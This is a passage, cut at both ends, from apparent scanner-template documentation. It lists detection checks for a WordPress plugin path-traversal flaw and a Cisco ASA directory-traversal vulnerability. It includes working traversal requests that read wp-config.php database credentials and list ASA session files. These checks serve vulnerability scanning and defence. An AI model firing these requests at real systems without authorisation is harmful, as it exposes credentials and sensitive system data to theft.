 ### URL

- {{BaseURL}}/wp-content/plugins/wpsite-background-takeover/exports/download.php?filename=../../../../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
  3. DB_HOST
  4. The base configurations of the WordPress
- condition - and

---

# Cisco ASA - Local File Inclusion

## Description

- Cisco Adaptive Security Appliances (ASA) web interfaces could allow an unauthenticated, remote attacker to cause an affected device to reload unexpectedly, resulting in a denial of service (DoS) condition. It is also possible on certain software releases that the ASA will not reload, but an attacker could view sensitive system information without authentication by using directory traversal techniques. The vulnerability is due to lack of proper input validation of the HTTP URL. An attacker could exploit this vulnerability by sending a crafted HTTP request to an affected device. An exploit could allow the attacker to cause a DoS condition or unauthenticated disclosure of information. This vulnerability applies to IPv4 and IPv6 HTTP traffic. This vulnerability affects Cisco ASA Software and Cisco Firepower Threat Defense (FTD) Software that is running on the following Cisco products: 3000 Series Industrial Security Appliance (ISA), ASA 1000V Cloud Firewall, ASA 5500 Series Adaptive Security Appliances, ASA 5500-X Series Next-Generation Firewalls, ASA Services Module for Cisco Catalyst 6500 Series Switches and Cisco 7600 Series Routers, Adaptive Security Virtual Appliance (ASAv), Firepower 2100 Series Security Appliance, Firepower 4100 Series Security Appliance, Firepower 9300 ASA Security Module, FTD Virtual (FTDv). Cisco Bug IDs: CSCvi16029.

- severity - high
- tags - edb,cve,cve2018,cisco,lfi,traversal,asa,kev

## Requests

- Method - GET

### URL

- {{BaseURL}}/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions

### Matchers

